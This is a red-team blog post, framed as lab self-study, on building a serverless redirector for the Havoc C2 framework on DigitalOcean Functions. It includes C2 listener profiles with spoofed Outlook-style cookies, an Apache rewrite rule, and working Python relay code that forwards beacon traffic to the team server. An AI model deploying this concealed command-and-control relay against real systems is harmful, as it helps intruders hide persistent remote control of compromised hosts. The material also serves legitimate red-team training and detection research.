

[back to blog](../blog.md)

Disclaimer: This blog is for educational purposes only. The author does not condone or support illegal activity, use the information responsibly and only in environments you own or have explicit written permission to test. 

All examples shown here are drawn from the author’s self-study for red-teaming certifications and from technical blogs; environments demonstrated are owned by the author and hosted in virtual machines locally. The author accepts no responsibility or liability for any actions taken by readers that violate applicable laws, regulations, or terms of service.

The main purpose of this blog is to share knowledge about Havoc C2 and it's setup.

* [Serverless Redirector](#serverless-redirector)
* [Setting up Redirector](#redirector-configuration)
* [Hardening](#hardening)


## Serverless Redirector

Previously on [Infrastructure setup](Infrastructure-setup.md). I have configured the HTTP/HTTPs redirector, this time I will configure the serverless redirector.

Typically the serverless is a cloud model where developers build and run apps without managing servers. Some of the examples are AWS Lambda, Azure Functions, and Cloud Functions. 

I was reviewing some serverless redirector code to understand how it works. In most implementations, I observed that they simply extract the headers, parameters and URLs, then make a request based on HTTP/HTTPS redirector rules, so the traffic can be forwarded over HTTPS redirector.

Since most serverless redirectors do not allow SSH access, you cannot use port forwarding to receive traffic back to C2 as shown from the previous blog. As a result, the traffic needs to be pass to the HTTP/HTTPS redirector instead.

Another possibility is that if the C2 is hosted on the same platform, it may be possible to connect to the serverless redirector directly to the C2. But this still give the risk of exposing the C2.

For this blog I will be using https://github.com/RedSiege/AutoFunkt/blob/main/autofunkt.py as the base and then build a serverless redirector on digital ocean https://www.digitalocean.com/products/functions.

On digital ocean they call it functions, you can deploy code such as nodejs, php, python or go.


The pricing and specs are shown below. 


# Redirector Configuration

Next up is deploying the very first function. On digital ocean go to functions > create function name space > create name space


Next on overview tab click, create function. As for the runtime choose python any version you like but in my case I will be using python3.9 then click create.


After that it will give a boilerplate python that we could use to play around.


Next thing to do is edit the C2 profile, Edit the listener block and add the DO function URL, also edit the URIs and the path. Then re run the c2 server.

```c
Listeners {
    Http {
        <snipped>
Hosts        =  ["fa<REDACTED>c.doserverless.co"]
Uris         =  ["/owa/", "/OWA/", "/api/v1/web/f<REDACTED>3/default/test"]
<snipped>
```

For the code I will be re using this code from https://github.com/RedSiege/AutoFunkt/blob/main/autofunkt.py. Edit the function name, teamserver url, and the uri to match the HTTP/HTTPs redirector.

Another thing to do, change the header, cookies, other data and append the C2 profile values first to ensure that it will work. Afterwards change it back for the beacon to check. 

One annoying part in Digital Ocean serverless function is that some python modules does not exists and there are caveats when using this.

```py
import requests

def main(request):
    url = "https://<HTTP/HTTPS redirector url>/"
    test_endpoint = "owa/"
    get_url = url + test_endpoint

    # Hardcoded headers
    header_dict = {
        "Accept": "*/*",
        "Cookie": (
            "MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;"
            "ClientId=1C0F6C5D910F9;"
            "MSPAuth=3EkAjDKjI;"
            "xid=730bf7;"
            "wla42=ZG0yMzA2KjEs"
        )
    }

    # Forward query parameters if present
    params = request.get("queryStringParameters", {})

    res = requests.get(
        url=get_url,
        headers=header_dict,
        params=params
    )

    return {
        "statusCode": res.status_code,
        "headers": {
            "Content-Type": res.headers.get("Content-Type", "application/octet-stream")
        },
        "body": res.text
    }

```

After running we get a 404 which is expected to receive if it's correct, otherwise it will show the landing page.


Below screenshot shows if it does not match the forwarded request to the HTTP/HTTPs redirector it will show the landing page instead.


but before that, try first with curl and ensure that it works. The screenshot below shows that its working as intended however, based on the HTTP/HTTPS rule it must include the /owa/ URI inroder to pass the rule checks.


to debug go to the https redirector, and run `tail -f /var/log/apache2/access.log`. The screenshot below shows that it properly sends now the headers to HTTP/HTTPS redirector.


Generate a new payload then run it on the target server. For this example I used the HTTP so it's easy to debug. The screenshot below is the traffic sent by the beacon.


However on the havoc c2 server I am receiving invalid header. So next step is to debug this. Checking closely, it  adds a new header which is __cf_bm. This is part of the cloudflare cookies


After removing it I am still receiving error even if it's correct.


After debugging I managed to get a callback, however the next problem arise wherein I cant send a command and receive its output. Sometimes it works and sometimes not.


Now the error looks like this. 


After debugging for a while it seems like it has something to do with the profile. My profile have 3 uris and 1 host specifically dedicated to the serverless do. I used wireshark to debug and used HTTP payload, I noticed that it connects sometimes on either owa, OWA or on the /api/v1. 

On Digital Ocean function you have to give the full url to trigger it. **"https[:]//REDACTED[.]doserverless.co/api/v1/web/fn-REDACTED/default/test"**

To fix it, I remove the /owa/, and /OWA/ on the profile. 

```c
Hosts        =  ["<REDACTED>.doserverless.co"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     =  443
        Secure       =  true
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
        Uris         =  ["/api/v1/web/fn-<REDACTED>/default/test"]
        Headers      =  ["Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"]
```

Next edit the .htaccess on HTTP/HTTPs redirector and add the following condition below. This allows to forward the traffic back to C2.

```
RewriteCond %{REQUEST_URI} ^/(owa|OWA|api/v1/web/fn-e[^/]*a3/default/test)(/|$) [NC]
```

After a lot of debugging its now working and passing the request from serverless function of Digital Ocean to HTTP/HTTPs redirector.


To cut short most of the issues I identified was related to Cookies, headers and how it handles the data on the serverless redirector back to http/https redirector, and also the configuration of profile and redirector. 

Below is the full working poc for digital ocean redirector.

```py
import requests
import base64

def main(event):
    
    # Target URL configuration
    url = 'https://www.<REDACTED>.org/'
    test_endpoint = "api/v1/web/fn-<REDACTED>/default/test"
    post_url = url + test_endpoint
    
    # Extract headers
    incoming_headers = event.get('__ow_headers', {})
    
    # Build header_dict
    header_dict = {}
    skip_headers = ['host', 'connection', 'content-length', 'cookie', 'cf-ray', 'cf-connecting-ip', 
                    'cf-ipcountry', 'cf-visitor', 'cdn-loop', 'x-request-id', 'x-forwarded-for', 
                    'x-forwarded-proto', 'accept-encoding']
    
    for key, value in incoming_headers.items():
        if key.lower() not in skip_headers:
            formatted_key = '-'.join(word.capitalize() for word in key.split('-'))
            header_dict[formatted_key] = value
    
    # Build Cookie header - no spaces after semicolons
    skip_cookies = ['__cf_bm', '__cflb', '__cfduid', '_cfuvid']
    cookie_header = incoming_headers.get('cookie', '')
    if cookie_header:
        cookie_parts = []
        for cookie in cookie_header.split(';'):
            cookie = cookie.strip()
            if '=' in cookie:
                key, value = cookie.split('=', 1)
                key = key.strip()
                value = value.strip()
                if key not in skip_cookies:
                    cookie_parts.append(f"{key}={value}")
        if cookie_parts:
            header_dict['Cookie'] = ';'.join(cookie_parts)
    
    # Extract and decode POST body
    post_data = b''
    raw_body = event.get('__ow_body', '')
    
    if raw_body:
        if event.get('__ow_isBase64Encoded', False):
            post_data = base64.b64decode(raw_body)
        else:
            post_data = raw_body.encode('utf-8') if isinstance(raw_body, str) else raw_body
    
    # Make POST request
    res = requests.post(
        url=post_url,
        data=post_data,
        headers=header_dict
    )
    
    # Return response
    return {
        "statusCode": res.status_code,
        "headers": {
            "Content-Type": "application/octet-stream",
            "Cache-Control": "no-cache",
            "Pragma": "no-cache"
        },
        "body": base64.b64encode(res.content).decode('utf-8'),
        "isBase64Encoded": True
    }
```

Earlier I showed some screenshots about different error  while using the serverless redirector it have some inconsistency when it's connecting back to c2 and executing command, since the given URI is not recognize. 

The fix that I only could think of is to extract dynamically the URI however there is a limitation on the digital ocean function and I could not find any work around to extract it dynamically and based on the debugging it does not contain the URI.

As a work around for this. Use round robin on the host.

```C
Hosts        =  ["faas-<REDACTED>.doserverless.co","www.<REDACTED>.org"]
HostRotation = "round-robin"
```

Anyway, there are a lot more better option for serverless redirector such as lambda, cloudflare worker and etc. 

# Hardening

As for hardening the serverless redirector, Digital Ocean offers a Secure web Function wherein, you can generate a custom secret and it will be appended on a header called **"X-Require-Whisk-Auth"**. 

Generate a secret and make sure to edit the, C2 profile, HTTP/HTTPs redirector, and the serverless redirector as well. It should be capable of extracting this value and forwarding it. 


Below screenshot is the lab configuration I did. If you missed out setting up the HTTP/HTTPs redirector see the link [Infrastructure setup](Infrastructure-setup.md).



# links

https://anubissec.github.io/Automating-Lambda-Serverless-Red-Team-Infrastructure/

https://github.com/KINGSABRI/ServerlessRedirector

https://github.com/RedSiege/AutoFunkt

https://github.com/jyhi/purl-workers


I’m still learning, so some OPSEC trade-offs or imperfect practices may appear.


[back to blog](../blog.md)